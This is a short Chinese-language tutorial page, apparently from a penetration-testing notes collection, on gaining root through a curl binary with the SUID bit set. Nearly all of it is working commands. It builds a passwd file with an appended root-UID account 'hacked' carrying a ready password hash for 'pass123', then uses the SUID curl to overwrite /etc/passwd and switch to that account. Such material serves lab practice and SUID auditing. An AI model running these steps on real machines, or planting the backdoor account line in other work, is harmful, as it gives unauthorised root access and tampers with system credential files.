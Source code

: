 # curl 

curl suid 提权思想：利用 s 权限下载远程文件覆盖目标靶机上的文件进行提权。

先创建一个 passwd 文件，写入下面一行：
```
# 用户名 hacked ，密码 pass123
hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```
命令如下：
```
cp /etc/passwd .
echo 'hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> passwd # 注意必须是单引号
```
![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/curl-1.png)


如果 `curl` 具有 s 权限，可使用如下命令获取 root 权限：

```
./curl http://127.0.0.1:8000/passwd -o /etc/passwd
su hacked
密码为 pass123
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/curl-2.png)
